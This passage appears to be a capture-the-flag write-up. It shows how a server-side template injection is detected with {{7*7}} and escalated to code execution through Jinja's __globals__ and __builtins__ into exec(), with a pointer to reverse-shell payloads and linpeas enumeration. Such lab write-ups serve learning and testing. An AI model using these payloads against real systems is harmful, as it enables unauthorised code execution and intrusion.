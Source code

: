 The boilerplate way of identifying SSTI is the payload `{{7*7}}`, which will be evaluated if the user input was directly inserted into the template renderer.

Let's create a `new message` with that payload and see if it will be reflected or not...

![SSTI1](/path/to/injection/attempt "SSTI Payload")

It did not reflect directly on the main page; however, if we check the `/archive` directory...

![SSTI2](/path/to/injection/poc "SSTI PoC")

_WOOT!_ We will get the reflected input. The next thing to do is to get RCE. But how? We'll use `Python Objects and Modules`.

```
self.__init__ --> Is used to construct a new instance of the Jinja class, used as the base point of our payload.

__globals__ --> It is used to focus on the entire namespace of that python object that we just initiated.

__builtins__ --> It is a module containing the built-in functions and types. So, we can directly access most of the modules provided by python from here.

Payload = {{self.__init__.__global__.__builtins__}}
```

Using that payload, we will have a list of python builtin functions that we can access using that object.

![exec](/path/to/exec/injection "We have exec()")

_The font maybe a bit small_; however, we can gain access to the `exec()` function, which lets us execute arbitrary python code.

```python
{{ self.__init__.__globals__.__builtins__.exec("""PYTHON CODE TO EXECUTE!""") }}
```

If we get a python reverse shell [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) and add it in the `exec()` function, we will be able to get our foothold. 

------------------------------------------------------------

## Path to user `shaun`:

### Enumeration:

![id](/path/to/id/image "We are user Web")

I like to use enumeration scripts. They do the default enumeration commands quickly and display them beautifully. One of the most common ones for linux is [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS). Running that script will reveal a password hidden in the `apache2 log` directory.
